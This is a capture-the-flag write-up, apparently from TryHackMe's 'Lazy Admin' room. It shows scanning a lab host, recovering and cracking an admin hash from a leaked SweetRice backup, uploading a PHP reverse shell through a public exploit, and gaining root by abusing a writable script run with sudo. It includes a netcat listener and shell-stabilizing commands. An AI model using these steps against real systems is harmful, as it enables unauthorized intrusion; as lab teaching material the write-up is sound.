

## Nmap: 
---
```bash
nmap -A -T4 -n 10.66.130.38 -oN nmap
```

```bash
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- so we see a web-server is running and the port for `SSH` is open 
- lets look at the website
## further Enumeration: 
---

- when we load up the page we see the `apache` default page, so nothing interesting 
- I also looked into the `source-code` (with Ctrl+U), but also there was nothing useful 
- lets use `Gobuster` to find other files or directory's that are on this web-server
### Gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.66.130.38 -o gobuster/first_enum
```

```bash
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.66.130.38/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```
- lets look into `/content`: 

- lets enumerate `/content` further with another `Gobuster` scan 

```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/common.txt -u http://10.66.130.38/content -o gobuster/content_enum
```

```bash
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.66.130.38/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.66.130.38/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.66.130.38/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.66.130.38/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.66.130.38/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.66.130.38/content/js/] 
```
- I looked through these directory's and found a `Mysql` backup file in `/inc/mysql_backup/` and a login-form in `/as`
- lets look inside: 
```
cat mysql_bakup_20191129023059-1.5.1.sql
```

```
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```
- if we look closely we can see that there is a `admin` and a `passwd` set 
- `admin`: manager
- `passwd`: 42f749ade7f9e195bf475f37a44cafcb
- the Password is a `MD5` hash and represents the string `Password123` 
- lets use these creds to login at `/as` 
## Upload a reverse-shell: 
---

- we got logged in 
- lets use `Searsploit` with `SweetRice` and the current version `1.5.1` to see if there is a upload-vulnerability:
```bash 
searchsploit SweetRice 1.5.1
```

```
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                   | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                     | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                         | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Exe | php/webapps/40700.html
------------------------------------------------------------ ---------------------------------
```
- lets look at the `Arbitrary File Upload` one: 
```bash 
searchsploit -m 40716.py
```
- lets run the exploit and see if we can get a `reverse-shell`, but before we have to setup a listener with `netcat`: 
```bash
nc -lnvp 1234
```


- we got a `reverse-shell`, I used the `PHP` reverse-shell from `pentestmonkey`
- i had to rename it to `.php5`, because with the `.php` extension it didn't work 
- to stabilize the shell a little bit I always to this: 
```bash 
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
## Privilege Escalation: 
---
- lets check which `users` are on the machine
- so I moved into `/home` and saw the `itguy` user 
- in his directory we can find the `user.txt` and can read it: 
```bash 
THM{<Redacted>}
```

- we also see a file called `backup.pl` in his directory: 
```bash
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl
```
- it is owned by `root` and we can execute it 
- lets check whats inside: 
```perl
#!/usr/bin/perl
system("sh", "/etc/copy.sh");
```
- so the script executes another script named: `copy.sh` 
- lets check out if we can write to this file: 
```bash 
-rw-r--rwx 1 root root 10 Dec 26 14:46 copy.sh
```
- we can, lets overwrite the file with `/bin/bash`, so when we file gets executed we get a `shell` 
- now we need to figure out, how we can run the `backup.pl` with root-privileges
- the one thing i didn't check till now is `sudo -l` 

- maybe we can run `perl` as root, lets check it: 
```bash
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
- we indeed can run this script with the user `root` 

- lets do it: 
```bash 
sudo -u root /usr/bin/perl /home/itguy/backup.pl
```

 
- so now we have a `root-shell` and can read the `root.txt`: 
```bash 
THM{<Redacted>}
```